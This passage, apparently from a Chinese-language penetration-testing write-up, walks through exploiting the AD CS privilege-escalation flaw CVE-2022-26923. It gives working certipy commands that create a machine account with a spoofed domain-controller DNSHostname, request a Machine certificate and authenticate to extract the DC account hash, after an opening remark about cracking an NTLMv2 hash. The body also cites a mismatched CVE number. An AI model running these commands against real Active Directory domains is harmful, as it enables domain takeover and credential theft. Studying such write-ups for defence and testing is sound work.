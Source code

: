 拿到 ADCS$的 NTLM v2，去爆破解密就行

# CVE-2022-26923（ADCS 提权漏洞）

Active Directory 域权限提升漏洞 (CVE-2022-26963 ) 允许低权限用户在安装了 Active Directory 证书服务 (AD CS) 服务器角色的默认 Active Directory 环境中将权限提升到域管理员，修改 DNSHostname 为域控机器即可伪造域控机器申请证书

## 漏洞利用

先申请低权限账户证书

```bash
certipy req -username qxn@penson.org -password Penson@2016 永遠的神 -ca penson-ADCS-CA -target 192.168.142.21 -template User
```

创建机器账户，并把 DNSHostname 改为域控的 DNSHostname

```bash
certipy account create -username qxn@penson.org -password Penson@2016 永遠的神 -target 192.168.142.21 -user machine1  -dns "AD.penson.org"
```

[![](assets/1708508972-d618c0079ae7b4aa22583561cf0c97d9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220170932-c26c393a-cfcf-1.png)

获取 Machine 账户证书

```bash
certipy req -username machine1\$@penson.org -password NmfsMZd6cygHXnYM -target 192.168.142.21 -ca penson-ADCS-CA -template Machine
```

[![](assets/1708508972-82f6782c6a293d7cf15053b844556be3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220170941-c7ac52fe-cfcf-1.png)

可以发现已经变成 ad 的证书了

验证证书，拿到机器账户 AD$的 hash

```bash
certipy auth -pfx ad.pfx -dc-ip 192.168.142.20 -debug
```
